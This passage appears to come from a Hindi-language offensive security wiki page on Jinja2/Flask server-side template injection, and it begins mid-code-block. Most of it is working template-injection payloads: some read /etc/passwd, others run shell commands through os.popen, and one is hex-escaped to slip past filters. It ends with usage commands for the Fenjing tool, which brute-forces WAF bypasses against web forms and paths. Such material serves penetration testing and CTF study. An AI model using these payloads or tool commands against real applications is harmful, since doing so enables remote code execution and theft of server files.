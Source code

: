 ```bash
- __repr__

# You can iterate through children objects to find more
```
एक बार जब आप कुछ फ़ंक्शन ढूंढ लेते हैं, तो आप निम्नलिखित के साथ बिल्ट-इन्स को पुनर्प्राप्त कर सकते हैं:
```python
# Read file
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}
{{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}
{{ (config|attr("__class__")).from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("ls")["read"]() %} {{ a }} {% endwith %}
{% endraw %}


## Extra
## The global from config have a access to a function called import_string
## with this function you don't need to access the builtins
{{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

# All the bypasses seen in the previous sections are also valid
```
### Fuzzing WAF bypass

**Fenjing** [https://github.com/Marven11/Fenjing](https://github.com/Marven11/Fenjing) एक उपकरण है जो CTFs पर विशेषीकृत है लेकिन वास्तविक परिदृश्य में अमान्य पैरामीटर को ब्रूटफोर्स करने के लिए भी उपयोगी हो सकता है। यह उपकरण बस शब्दों और प्रश्नों को छिड़कता है ताकि फ़िल्टर का पता लगाया जा सके, बायपास की खोज की जा सके, और एक इंटरैक्टिव कंसोल भी प्रदान करता है।
```
webui:
As the name suggests, web UI
Default port 11451

scan: scan the entire website
Extract all forms from the website based on the form element and attack them
After the scan is successful, a simulated terminal will be provided or the given command will be executed.
Example:python -m fenjing scan --url 'http://xxx/'

crack: Attack a specific form
You need to specify the form's url, action (GET or POST) and all fields (such as 'name')
After a successful attack, a simulated terminal will also be provided or a given command will be executed.
Example:python -m fenjing crack --url 'http://xxx/' --method GET --inputs name

crack-path: attack a specific path
Attack http://xxx.xxx/hello/<payload>the vulnerabilities that exist in a certain path (such as
The parameters are roughly the same as crack, but you only need to provide the corresponding path
Example:python -m fenjing crack-path --url 'http://xxx/hello/'

crack-request: Read a request file for attack
Read the request in the file, PAYLOADreplace it with the actual payload and submit it
The request will be urlencoded by default according to the HTTP format, which can be --urlencode-payload 0turned off.
```